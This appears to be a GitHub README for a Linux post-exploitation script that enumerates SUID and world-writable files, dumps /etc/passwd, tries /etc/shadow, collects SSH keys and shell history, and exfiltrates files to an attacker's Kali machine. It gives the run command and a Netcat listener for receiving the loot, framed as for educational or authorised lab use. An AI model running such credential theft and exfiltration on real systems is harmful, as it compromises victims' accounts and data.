 # Victimfilesdownload_shell
(Note: this can runnable only on victim machine after obtaining shell and use this script with legal permission on systems only)


Post-Exploitation Enumeration & Exfiltration Script (Linux os) 

it is about performing post-exploitation tasks after gaining a shell on a Linux system
(it can dowload permissions and resources on the victim machine)

-->Features: Enumerates SUID privilege escalation
-->Finds world-writable files  Dumps /etc/passwd, attempts /etc/shadow  
-->Locates SSH private keys and .bash_history  
-->Supports Netcat-based file exfiltration to attacker machine  

-->Pls Use for Educational Use Only 
or
-->use with permissions system only

How to Use (in your lab):

 On the Victim Machine (after gaining shell):

chmod +x post_exploitation_enum_and_exfil.sh

./post_exploitation_enum_and_exfil.sh <your-kali-ip> <port>

This will:

Enumerate SUID files, world-writable files

Dump /etc/passwd, try /etc/shadow

Search for SSH keys and .bash_history

Use Netcat to send /etc/passwd back to your Kali

On Your Kali (Attacker) Machine:
Start listener to receive the file:

nc -lvp <port> > passwd_loot.txt

